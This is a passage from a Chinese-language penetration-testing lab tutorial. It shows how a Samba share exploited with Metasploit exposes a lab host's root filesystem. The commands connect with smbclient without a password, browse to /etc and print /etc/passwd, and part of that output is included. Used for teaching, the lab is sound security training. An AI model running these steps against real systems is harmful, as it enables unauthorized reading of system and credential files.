 ![图片描述](../imgs/1480573539217.png-wm.png)

其中如下信息，表示进入成功：

```
[*] 192.168.122.102:445 - Now access the following share to browse the root filesystem:

```
在成功之后，输入退出命令 `exit`，我们在终端中进行测试是否能够利用 `smbclient `进行连接，在连接之后，会出现输入密码，无需输入，按回车键即可：

```
exit 

smbclient //192.168.122.102/tmp
```

![图片描述](../imgs/1480573933783.png-wm.png)

```
cd rootfs

cd etc

more passwd

```
即可看到 `/etc/passwd` 文件内容：

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
[....]
```
至此，实验成功，成功利用选定的 Unix 目录（包括所有子目录）创建网络共享。并通过登录到渗透的目标主机进行验证。
